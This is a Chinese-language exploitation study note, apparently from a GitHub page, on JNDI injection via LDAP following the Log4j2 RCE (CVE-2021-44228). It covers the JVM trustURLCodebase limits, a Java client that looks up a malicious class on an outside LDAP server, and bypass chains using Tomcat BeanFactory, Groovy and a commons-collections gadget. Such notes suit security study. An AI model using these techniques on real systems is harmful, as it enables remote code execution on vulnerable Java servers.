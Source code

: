 ### 缘起Log4j2 

因为 Log4j2 RCE(CVE-2021-44228)的出现，所以顺便把JNDI+LDAP的利用姿势一并总结。
利用需要注意的限制

- java.rmi.server.useCodebaseOnly
  - 默认值为true，禁止自动加载远程类文件，仅从CLASSPATH和当前JVM的java.rmi.server.codebase指定路径加载类文件。
- com.sun.jndi.rmi.object.trustURLCodebase
  - 默认为false，禁止RMI和CORBA协议使用远程codebase的选项
- com.sun.jndi.ldap.object.trustURLCodebase
  - 默认为false，禁止LDAP协议使用远程codebase的选项


### JNDI via LDAP

#### 0x01 理想环境(trustURLCodebase == true) 

LDAP客户端：LDAPClient.java
```java
package ldap;

import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class LDAPClient {
    public static void main(String[] args) throws NamingException {
        /**
         * 注意：JDK 11.0.1、8u191、7u201、6u211 com.sun.jndi.ldap.object.trustURLCodebase 默认为false
         * 所以：在进行JNDI利用时，需要注意目标使用的JDK版本
         */
        Context ctx = new InitialContext();
        ctx.lookup("ldap://10.10.10.1:1389/badClassName");
    }
}
```

LDAP服务端：[LDAPKit](https://github.com/EmYiQing/LDAPKit) （改了一下，加了一些链进去）

![image](https://user-images.githubusercontent.com/55024146/145824043-3627762c-f77a-46e5-89e1-db3d60974bf8.png)

测试效果：

![image](https://user-images.githubusercontent.com/55024146/145824238-f1604171-0d61-4c23-bcd9-0de3391272a6.png)

#### 0x02 Tomcat v8+

Tomcat v8+
- org.apache.naming.factory.BeanFactory
- javax.el.ELProcessor

依赖环境
```xml
<dependency>
    <groupId>org.apache.tomcat.embed</groupId>
    <artifactId>tomcat-embed-core</artifactId>
    <version>8.5.61</version>
</dependency>
````


#### 0x03 Groovy （

依赖环境
```xml
<dependency>
    <groupId>org.codehaus.groovy</groupId>
    <artifactId>groovy-all</artifactId>
    <version>1.5.0</version>
</dependency>
```


#### 0x04 javaSerializedData属性+Gadgets(如CC链)

依赖环境
```xml
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.1</version>
</dependency>
```

起一个LDAP + CC05的服务端：
![image](https://user-images.githubusercontent.com/55024146/145829752-3b2cdc81-06ef-4cb2-8d57-258af89604fc.png)

测试效果：

![image](https://user-images.githubusercontent.com/55024146/145829956-4d622421-53d3-40d8-a659-fa3328f76623.png)






